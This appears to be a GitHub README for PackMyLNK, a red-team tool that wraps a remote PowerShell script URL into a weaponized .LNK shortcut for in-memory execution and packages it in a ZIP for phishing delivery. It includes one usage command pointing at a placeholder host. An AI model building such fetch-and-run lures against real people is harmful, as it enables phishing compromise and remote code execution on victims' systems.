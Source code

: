 # PackMyLNK

This tool takes a URL pointing to a PowerShell script and embeds it into a weaponized .LNK file for in-memory execution. It automatically generates the .LNK file, packages it in a ZIP, and prepares everything for easy delivery through Social Engineering techniques.

Surprisingly, .LNK files remain effective today as an initial compromise vector in phishing and Red Team engagements!

## Usage
`.\PackMyLNK.exe -Url http://example.com/RunMe.ps1`

![Screenshot 2024-11-03 102536](https://github.com/user-attachments/assets/c13de60e-20c6-480a-b8c9-77f5f18303c6)


#### DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage.
